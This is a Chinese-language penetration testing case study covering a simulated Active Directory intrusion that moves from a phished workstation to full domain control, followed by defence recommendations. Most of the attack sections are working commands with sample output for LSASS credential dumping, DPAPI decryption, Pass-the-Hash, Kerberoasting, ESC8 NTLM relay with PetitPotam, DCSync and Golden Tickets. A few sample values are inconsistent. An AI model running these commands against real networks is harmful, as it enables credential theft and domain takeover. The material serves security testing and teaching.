



## 3.2 案例二：内网渗透测试——从钓鱼立足点到全域控制

### 3.2.1 背景与目标

#### 测试背景

某大型制造企业拥有超过2000名员工，IT基础设施以Active Directory域为核心，部署了约1500台工作站和200台服务器。企业此前从未进行过系统的内网安全评估，安全团队希望了解：如果攻击者通过钓鱼邮件获取了一台普通员工工作站的控制权，能够在内网中造成多大范围的影响。

该测试的实战意义在于：**钓鱼攻击是当前企业面临的最高频初始攻击向量**。根据Verizon《2024数据泄露调查报告》，约74%的数据泄露涉及人为因素，钓鱼和社会工程学是主要入口。因此，模拟钓鱼后的内网横向渗透具有极高的现实参考价值。

#### 测试参数

| 项目 | 详情 |
|------|------|
| 测试类型 | 白盒测试（提供域架构文档和网络拓扑图） |
| 测试范围 | 内网所有域成员（工作站 + 服务器 + 域控制器） |
| 初始条件 | 已获得一台普通员工工作站（Windows 10 Pro）的本地管理员权限 |
| 测试目标 | 评估从初始立足点出发，攻击者能达到的最大影响范围 |
| 时间窗口 | 5个工作日 |
| 限制条件 | 不得影响生产业务系统正常运行，不得破坏数据 |

#### 测试方法论

本次测试遵循以下方法论框架：



测试采用**MITRE ATT&CK框架**进行攻击路径映射，覆盖以下战术阶段：

| 攻击阶段 | ATT&CK战术 | 本案例涉及的技术 |
|----------|-----------|----------------|
| 初始访问 | Initial Access | 钓鱼攻击（模拟已成功） |
| 发现 | Discovery | 网络配置、域信息、本地系统信息收集 |
| 凭据访问 | Credential Access | 内存凭据提取、DPAPI解密 |
| 横向移动 | Lateral Movement | Pass the Hash、Kerberoasting |
| 权限提升 | Privilege Escalation | AD CS ESC8漏洞利用 |
| 影响 | Impact | 全域控制、凭据导出 |

### 3.2.2 信息收集

信息收集是内网渗透的基石。在获得初始立足点后，测试人员需要系统性地收集三类信息：**网络拓扑信息**、**域环境信息**和**本地系统信息**。这些信息将决定后续攻击路径的选择。

#### 网络配置信息收集

网络配置信息帮助攻击者理解目标在内网中的位置、可达网段和潜在的网络隔离边界：

```powershell
# 获取完整的网络配置信息
ipconfig /all

# 输出关键信息：
#   IPv4 地址：10.10.1.55
#   子网掩码：255.255.255.0
#   默认网关：10.10.1.1
#   DNS 服务器：10.10.1.10（域控制器）
#   DHCP 服务器：10.10.1.10
#   DNS 后缀：manufacture.local
```

**分析要点**：DNS服务器地址（10.10.1.10）通常就是域控制器，这为后续攻击提供了高价值目标的直接线索。DHCP服务器同址说明企业采用集中式网络管理，域控制器承担了核心基础设施角色。

```powershell
# 获取ARP缓存，了解同网段活跃主机
arp -a

# 获取路由表，了解可达网段
route print

# 获取DNS缓存，了解近期访问过的主机
ipconfig /displaydns | findstr "Record Name"
```

**为什么路由表很重要**：路由表揭示了内网的网络分段策略。如果发现通往172.16.0.0/24的静态路由，说明可能存在独立的服务器网段或管理网段，这些通常是高价值目标集中的区域。

#### 域环境信息收集

域环境信息是Active Directory渗透的核心。测试人员使用PowerView（PowerSploit框架的组成部分）进行系统化的域信息收集：

```powershell
# 导入PowerView模块
Import-Module .\PowerView.ps1

# 基础域信息
Get-Domain
# 输出：域名 manufacture.local，域功能级别 Windows Server 2016

# 枚举所有域用户（关注描述字段中的敏感信息）
Get-DomainUser | Select-Object samaccountname, description, memberof |
  Export-Csv -Path "C:\temp\domain_users.csv" -NoTypeInformation

# 枚举所有域计算机（识别操作系统版本分布）
Get-DomainComputer | Select-Object dnshostname, operatingsystem, logoncount |
  Export-Csv -Path "C:\temp\domain_computers.csv" -NoTypeInformation

# 查找 Domain Admins 组成员
Get-DomainGroup "Domain Admins" | Get-DomainGroupMember -Recurse

# 查找 Enterprise Admins 组成员
Get-DomainGroup "Enterprise Admins" | Get-DomainGroupMember -Recurse

# 查找所有域控制器
Get-DomainController | Select-Object Name, IPAddress, OSVersion

# 查找配置了SPN的服务账户（Kerberoasting目标）
Get-DomainUser -SPN | Select-Object samaccountname, serviceprincipalname
```

> **实战技巧**：`description` 字段经常被管理员忽略，其中可能包含密码、系统说明或其他敏感信息。测试中应逐条检查。

```powershell
# 查找设置了 "Password Never Expires" 的账户
Get-DomainUser | Where-Object {$_.useraccountcontrol -band 0x10000} |
  Select-Object samaccountname

# 查找 AdminCount=1 的账户（曾经或当前是特权账户）
Get-DomainUser -AdminCount | Select-Object samaccountname

# 查找 Unconstrained Delegation 配置的计算机
Get-DomainComputer -Unconstrained | Select-Object dnshostname

# 查找域内信任关系
Get-DomainTrust
```

**信息收集的广度决定了攻击的成功率**。一个常见的错误是只收集基础信息就急于进行攻击，导致错失关键路径。系统性的信息收集通常需要1-2小时，但节省的是后续反复试探的时间。

#### 本地系统信息收集

本地系统信息帮助攻击者评估当前工作站的安全防护水平和潜在的提权路径：

```powershell
# 检查本地管理员组成员（可能包含域账户）
net localgroup administrators
# 输出中发现 CONTOSO\HelpDesk_Admins 是本地管理员

# 检查已安装软件（寻找可利用的旧版本软件）
wmic product get name,version | findstr /i "java python teamviewer"

# 检查当前网络连接（识别可达的内网服务）
netstat -ano | findstr ESTABLISHED

# 检查计划任务（寻找以高权限运行的任务）
schtasks /query /fo LIST /v | findstr /i "Run As User"

# 检查Windows Defender状态
Get-MpComputerStatus | Select-Object RealTimeProtectionEnabled, AntivirusEnabled

# 检查AppLocker或SRP策略
Get-AppLockerPolicy -Effective | Select-Object -ExpandProperty RuleCollections

# 检查当前用户的权限和令牌信息
whoami /priv
whoami /groups
```

**安全产品识别至关重要**。如果检测到EDR（如CrowdStrike、Carbon Black）或严格的应用白名单策略，后续的凭据提取和横向移动操作需要相应调整工具和手法，以避免触发告警。

### 3.2.3 凭据获取

凭据是内网横向移动的"通行证"。在Active Directory环境中，凭据获取的主要途径包括内存提取、DPAPI解密和缓存凭据读取。

#### 内存凭据提取（Mimikatz）

Mimikatz是Windows凭据提取的事实标准工具。其核心原理是：Windows在用户登录时会将凭据材料（明文密码、NTLM哈希、Kerberos票据）缓存在LSASS（Local Security Authority Subsystem Service）进程的内存中，以支持单点登录（SSO）等功能。

```powershell
# 方法一：直接运行 Mimikatz
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" exit

# 关键输出解读：
# Authentication Id : 0 ; 313392 (00000000:0004c820)
# Session           : Interactive from 1
# User Name         : zhangsan
# Domain            : MANUFACTURE
# NTLM              : 32693b11e6aa90eb43d32c72a07ceea6
#   * Username : Administrator
#   * Domain   : MANUFACTURE
#   * NTLM     : a57dfc93402b28bb123e7c91c6c04bac
```

```powershell
# 方法二：通过 LSASS 转储离线提取（规避实时检测）
# 第一步：创建 LSASS 内存转储
procdump.exe -accepteula -ma lsass.exe lsass.dmp

# 第二步：将转储文件传输到攻击机离线分析
mimikatz.exe "sekurlsa::minidump lsass.dmp" "sekurlsa::logonpasswords" exit
```

```powershell
# 方法三：使用 comsvcs.dll（无需额外工具）
# 查找 LSASS 进程 PID
tasklist | findstr lsass
# 输出：lsass.exe    724    Services    0    65,432 K

# 使用 rundll32 创建转储
rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump 724 C:\temp\lsass.dmp full
```

**本次测试结果**：成功获取了当前用户 `zhangsan` 的NTLM哈希，以及域管理员 `Administrator` 曾在该工作站登录留下的缓存NTLM哈希 `a57dfc93402b28bb123e7c91c6c04bac`。

> **为什么域管理员的哈希会在普通工作站上出现？** 这是企业内网最常见的安全疏忽之一。管理员在排查问题、部署软件或远程维护时，使用域管理员账户在普通工作站上登录，LSASS就会缓存该凭据。只要工作站未重启，这些凭据就一直存在。这正是"最小权限原则"在实际运维中最容易被忽视的场景。

#### DPAPI 凭据解密

DPAPI（Data Protection API）是Windows用于保护用户敏感数据的加密机制，广泛用于存储浏览器密码、RDP连接凭据、WiFi密码等。

```powershell
# 使用 SharpDPAPI 枚举系统中的 DPAPI 凭据
SharpDPAPI.exe credentials /target:C:\Users\zhangsan\AppData\Local\Microsoft\Credentials\

# 输出示例：
#   CredFile : C:\Users\zhangsan\AppData\Local\Microsoft\Credentials\DFBE70A7E5CC19A398EBF1B96859CE5D
#   guidMasterKey: {b3b4c5d6-e7f8-9012-3456-7890abcdef12}
#   UserName : DOMAIN\Administrator
#   Target   : 10.10.1.200
```

```bash
# 在攻击机上使用 Impacket 的 dpapi.py 解密
dpapi.py credential -file DFBE70A7E5CC19A398EBF1B96859CE5D \
  -masterkey b3b4c5d6-e7f8-9012-3456-7890abcdef12 \
  -password "zhangsan_password"

# 输出：
#   UserName : MANUFACTURE\Administrator
#   Target   : 10.10.1.200
#   Password : Str0ng!Adm1nyour_password#2024
```

**本次测试发现**：DPAPI凭据中存储了对服务器10.10.1.200的RDP连接凭据，且使用的是域管理员账户。这意味着管理员曾经RDP连接到该服务器并勾选了"记住密码"选项。

#### 凭据获取方法对比

| 方法 | 原理 | 所需权限 | 检测难度 | 获取内容 |
|------|------|---------|---------|---------|
| Mimikatz sekurlsa | 读取LSASS内存 | 需要SeDebugPrivilege | 高（被广泛检测） | 明文密码、NTLM哈希、Kerberos票据 |
| LSASS转储+离线分析 | 转储LSASS内存后离线提取 | 需要SeDebugPrivilege | 中（可绕过实时检测） | 同上 |
| DPAPI解密 | 解密用户加密存储的凭据 | 需要用户上下文 | 低（不触发安全告警） | 浏览器密码、RDP凭据、WiFi密码 |
| SAM数据库 | 提取本地账户哈希 | SYSTEM权限 | 中 | 本地账户NTLM哈希 |
| LSA Secrets | 读取LSA存储的服务账户密码 | SYSTEM权限 | 中 | 服务账户密码、计划任务凭据 |
| DCSync | 模拟域控制器复制 | 需要Domain Admin或等效权限 | 高 | 所有域账户的NTLM哈希 |

### 3.2.4 横向移动

横向移动是内网渗透的核心环节，目标是从一台已控制的主机扩展到更多主机，逐步接近高价值目标（域控制器、数据库服务器等）。

#### Pass the Hash 攻击

**原理**：Windows NTLM认证协议在认证时只需要密码的哈希值，不需要明文密码。攻击者使用获取的NTLM哈希直接构造认证请求，绕过密码验证。

```bash
# 使用 Impacket 的 psexec.py 进行 Pass the Hash
# 语法：psexec.py -hashes <LM哈希>:<NTLM哈希> <域>/<用户>@<目标IP>
psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6 \
  MANUFACTURE/zhangsan@10.10.1.15
```

```bash
# 使用 wmiexec.py 进行更隐蔽的横向移动（不创建服务）
wmiexec.py -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6 \
  MANUFACTURE/zhangsan@10.10.1.15

# 使用 smbexec.py（通过SMB执行命令，不上传文件）
smbexec.py -hashes aad3b435b51404eeaad3435b51404ee:32693b11e6aa90eb43d32c72a07ceea6 \
  MANUFACTURE/zhangsan@10.10.1.15
```

**横向移动工具对比**：

| 工具 | 协议 | 特点 | 检测风险 |
|------|------|------|---------|
| psexec.py | SMB + RPC | 上传并执行PSEXESVC.exe，创建服务 | 高（创建文件和服务） |
| wmiexec.py | WMI (DCOM) | 不创建文件，通过WMI执行命令 | 中（留下WMI日志） |
| smbexec.py | SMB | 通过SMB共享执行命令 | 中（SMB流量异常） |
| atexec.py | Task Scheduler | 通过计划任务执行命令 | 低（利用合法功能） |
| dcomexec.py | DCOM | 通过DCOM对象执行命令 | 中（DCOM调用异常） |

```powershell
# Windows原生横向移动方法（无需额外工具）

# 方法一：使用 PowerShell Remoting
Enter-PSSession -ComputerName 10.10.1.15 -Credential (Get-Credential)

# 方法二：使用 WMIC
wmic /node:10.10.1.15 /user:MANUFACTURE\Administrator /password:xxx process call create "cmd.exe /c whoami > C:\temp\out.txt"

# 方法三：使用 schtasks
schtasks /create /s 10.10.1.15 /u MANUFACTURE\Administrator /p xxx /tn "Update" /tr "cmd.exe /c whoami" /sc once /st 00:00
schtasks /run /s 10.10.1.15 /tn "Update"
```

#### Kerberoasting 攻击

**原理**：在Active Directory中，当服务账户配置了SPN（Service Principal Name）时，任何域用户都可以请求该服务的TGS（Ticket Granting Service）票据。TGS票据使用服务账户的NTLM哈希加密，攻击者可以获取TGS后离线暴力破解服务账户的密码。

```bash
# 步骤一：枚举配置了SPN的服务账户
GetUserSPNs.py manufacture.local/zhangsan:password123 -dc-ip 10.10.1.10

# 输出：
# ServicePrincipalName                Name        MemberOf  PasswordLastSet
# ----------------------------------  ----------  --------  ---------------
# MSSQLSvc/DB-SERVER.manufacture.local  svc_sql     <empty>   2022-03-15
# HTTP/WEB-SERVER.manufacture.local     svc_web     <empty>   2021-08-20
# TERMSRV/APP-SERVER.manufacture.local  svc_app     <empty>   2020-12-01

# 步骤二：请求TGS票据并保存到文件
GetUserSPNs.py manufacture.local/zhangsan:password123 \
  -request -outputfile kerberoast_hashes.txt -dc-ip 10.10.1.10

# 步骤三：使用 Hashcat 离线破解 TGS 票据
# 票据格式为 $krb5tgs$23$*，对应 Hashcat 模式 13100
hashcat -m 13100 kerberoast_hashes.txt /usr/share/wordlists/rockyou.txt -r rules/best64.rule

# 成功破解结果：
# svc_sql:SqlS3rv1ce#2022
# svc_web:Web@Pass123
```

**Kerberoasting的防御难点**：该攻击完全基于正常的Kerberos协议流程，不触发传统的入侵检测规则。请求TGS票据是域用户的合法权限，安全团队很难将其与正常的应用认证行为区分。

#### AD CS 攻击（ESC8 漏洞）

**原理**：Active Directory证书服务（AD CS）是企业内网中广泛部署的PKI（公钥基础设施）组件。ESC8漏洞指的是AD CS的证书注册Web接口（HTTP Enrollment Endpoint）使用NTLM认证而非Kerberos，攻击者可以中继NTLM认证请求到证书颁发机构，以任意用户身份申请证书，然后使用该证书进行Kerberos认证。

```bash
# 步骤一：使用 Certipy 枚举 AD CS 配置，识别漏洞
certipy find -u zhangsan@manufacture.local -hashes <NTLM_HASH> -dc-ip 10.10.1.10

# 输出中的关键发现：
# [!] Vulnerabilities
#     ESC8 : MANUFACTURE-CA
#     Enrollment Endpoint : http://10.10.1.10/certsrv/certfnsh.asp

# 步骤二：启动 NTLM 中继服务器
# 将 NTLM 认证请求中继到 CA 的 HTTP 注册接口
ntlmrelayx.py -t http://10.10.1.10/certsrv/certfnsh.asp \
  -smb2support --adcs --template KerberosAuthentication

# 步骤三：触发域控制器向中继服务器发起 NTLM 认证
# 使用 PrinterBug、PetitPotam 或 ShadowCoerce 触发
python3 PetitPotam.py <攻击机IP> 10.10.1.10

# 步骤四：获取域管理员证书
# ntlmrelayx 成功中继后，输出 base64 编码的证书
# [*] Successfully got certificate for MANUFACTURE\Administrator$
# [*] Certificate written to ADMINISTRATOR.pfx

# 步骤五：使用证书获取 TGT
certipy auth -pfx administrator.pfx -dc-ip 10.10.1.10

# 输出：
# [*] Got TGT for administrator@MANUFACTURE.LOCAL
# [*] Saved credential cache to administrator.ccache

# 步骤六：使用 TGT 进行认证
export KRB5CCNAME=administrator.ccache
psexec.py -k -no-pass manufacture.local/administrator@DC01.manufacture.local
```

**ESC8攻击链的完整流程**：



### 3.2.5 域控制器攻陷

通过上述多种攻击路径的组合，测试人员最终以域管理员身份完全控制了域控制器：

```bash
# 使用域管理员凭据登录域控制器
psexec.py manufacture.local/administrator:<password>@10.10.1.10

# 获取 SYSTEM 权限的交互式 Shell
# C:\Windows\system32> whoami
# nt authority\system

# 导出域内所有用户的 NTLM 哈希（DCSync 技术）
secretsdump.py manufacture.local/administrator:<password>@10.10.1.10

# 输出示例：
# Administrator:500:aad3b435b51404eeaad3b435b51404ee:a57dfc93402b28bb123e7c91c6c04bac:::
# Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
# krbtgt:502:aad3b435b51404eeaad3b435b51404ee:f3bc61e97fb14d18e34c8104e0613405:::
# zhangsan:1104:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
# [... 共 1,847 个账户 ...]
```

**完全控制域控制器意味着什么**：

| 攻击能力 | 具体影响 | 风险等级 |
|----------|---------|---------|
| 获取所有域账户哈希 | 可以冒充任何用户，包括CEO、财务总监 | 致命 |
| 创建 Golden Ticket | 永久域访问权限，即使重置密码也无法清除 | 致命 |
| 修改 GPO 策略 | 可以在所有域成员上执行任意命令 | 致命 |
| 植入 DCSync 后门 | 持续获取所有用户的最新凭据 | 致命 |
| 控制 DNS | 可以重定向任意内网流量 | 高 |
| 访问所有域资源 | 文件服务器、邮件服务器、数据库等 | 致命 |

```bash
# 使用 krbtgt 的哈希创建 Golden Ticket（持久化后门）
ticketer.py -nthash f3bc61e97fb14d18e34c8104e0613405 \
  -domain-sid S-1-5-21-2865237768-3948536874-1234567890 \
  -domain manufacture.local administrator

# Golden Ticket 有效期默认为10年
# 即使重置 administrator 密码，Golden Ticket 仍然有效
# 必须重置 krbtgt 密码两次才能使其失效
```

### 3.2.6 完整攻击路径可视化



### 3.2.7 检测与防御建议

测试的价值不仅在于发现漏洞，更在于提供可落地的防御方案。以下是针对本次测试发现的每个攻击环节的防御措施：

#### 防御措施矩阵

| 攻击环节 | 防御措施 | 实施难度 | 防御效果 |
|----------|---------|---------|---------|
| 凭据缓存 | 禁止域管理员在普通工作站登录，使用 PAW（特权访问工作站） | 中 | 高 |
| Mimikatz | 部署 Credential Guard，启用 LSA 保护 | 低 | 高 |
| DPAPI | 禁止"记住密码"功能，定期清理缓存凭据 | 低 | 中 |
| Pass the Hash | 启用 NTLM 审计/禁用，强制 Kerberos 认证 | 高 | 高 |
| Kerberoasting | 服务账户使用 25+ 位随机密码，定期轮换 | 低 | 高 |
| AD CS ESC8 | 禁用 HTTP 注册接口，启用 EPA（Extended Protection） | 低 | 高 |
| Golden Ticket | 定期（每 180 天）重置 krbtgt 密码两次 | 低 | 高 |

#### 关键防御技术详解

**1. 特权访问工作站（PAW）策略**

```text
核心原则：域管理员只能在专用的、加固的工作站上进行管理操作。

实施步骤：
1. 创建独立的 OU 存放 PAW 计算机
2. 通过 GPO 限制 PAW 只能与管理网段通信
3. 禁止域管理员账户在非 PAW 设备上登录
4. PAW 启用 Credential Guard 和 Device Guard
5. PAW 不安装任何非管理必需的软件
```

**2. Credential Guard 部署**

```powershell
# 启用 Windows Defender Credential Guard
# 需要：Windows 10 Enterprise/Education，支持 VBS 的硬件

# 检查设备是否支持 Credential Guard
Get-CimInstance -ClassName Win32_DeviceGuard -Namespace root\Microsoft\Windows\DeviceGuard

# 通过 GPO 启用：
# 计算机配置 → 管理模板 → 系统 → Device Guard
# → "打开基于虚拟化的安全" → 已启用
# → 选择"启用并使用 UEFI 锁定"安全启动
```

**3. NTLM 限制策略**

```powershell
# 阶段一：审计模式（收集 NTLM 使用情况，不阻断）
# 通过 GPO 设置：
# 计算机配置 → Windows 设置 → 安全设置 → 本地策略 → 安全选项
# → "网络安全：限制 NTLM：此域中的 NTLM 身份验证" → 审计所有

# 阶段二：逐步限制
# → "网络安全：限制 NTLM：此域中的 NTLM 身份验证" → 拒绝域账户

# 阶段三：全面禁用（确保所有应用已迁移到 Kerberos）
# → "网络安全：限制 NTLM：此域中的 NTLM 身份验证" → 拒绝所有
```

**4. AD CS 安全加固**

```powershell
# 1. 禁用 HTTP 证书注册接口（修复 ESC8）
# 在 CA 服务器上，通过 IIS 管理器禁用 /certsrv 虚拟目录的 HTTP 绑定
# 仅保留 HTTPS + EPA（Extended Protection for Authentication）

# 2. 审计证书模板权限
certutil -v -dstemplate | findstr /i "Enrollment"

# 3. 审计已签发的异常证书
certutil -view -restrict "Disposition=20" | findstr /i "RequesterName"

# 4. 限制高权限模板的注册权限
# 在证书模板控制台中，移除不需要的组的"注册"权限
```

### 3.2.8 测试总结与影响评估

#### 发现汇总

本次内网渗透测试从一台普通员工工作站出发，通过3条独立的攻击路径实现了域控制器的完全控制，揭示了以下关键安全问题：

| 发现编号 | 安全问题 | 严重等级 | CVSS | 攻击路径 |
|----------|---------|---------|------|---------|
| V-01 | 域管理员在普通工作站登录，导致凭据泄露 | 致命 | 9.1 | Mimikatz → PtH |
| V-02 | 服务账户使用弱密码，且配置了可被 Kerberoasting 利用的 SPN | 高危 | 7.5 | Kerberoasting → 离线破解 |
| V-03 | AD CS 配置存在 ESC8 漏洞 | 致命 | 9.8 | PetitPotam → NTLM Relay → 证书 |
| V-04 | 工作站缺少 Credential Guard 和终端防护 | 高危 | 7.2 | 凭据提取无阻碍 |
| V-05 | 缺乏有效的内网横向移动检测机制 | 高危 | 7.8 | PtH、WMI 横向移动未被发现 |
| V-06 | NTLM 协议未受限制，Pass the Hash 畅通无阻 | 高危 | 8.1 | PtH 全域可达 |
| V-07 | DPAPI 凭据缓存未清理，含管理员 RDP 密码 | 高危 | 7.4 | DPAPI 解密 → RDP 凭据 |

#### 攻击路径对比

| 攻击路径 | 技术难度 | 所需时间 | 检测概率 | 最终权限 |
|----------|---------|---------|---------|---------|
| 路径一：Mimikatz → PtH → 域管哈希 | 低 | 30分钟 | 中 | 域管理员 |
| 路径二：Kerberoasting → 服务账户 → 横向移动 | 中 | 2-4小时 | 低 | 特权账户 |
| 路径三：AD CS ESC8 → 域管证书 | 高 | 1小时 | 低 | 域管理员 |

#### 关键结论

**从钓鱼到全域控制，整个攻击链耗时不到一个工作日**。这一结果揭示了一个令人警醒的事实：在缺乏纵深防御的企业内网中，一次成功的钓鱼攻击等同于整个域的沦陷。攻击者不需要高超的技术手段，仅凭Mimikatz提取缓存凭据这一最基础的内网渗透技术，就能在30分钟内从普通员工权限跃升为域管理员。

防御的关键不在于阻止某一个环节，而在于**打破攻击链**。只要在凭据保护、横向移动检测、服务账户管理、证书服务配置四个维度中的任何一个做到位，攻击者的成功率就会大幅下降。安全防御是一个系统工程，零散的补丁式修复无法应对系统性的内网威胁。
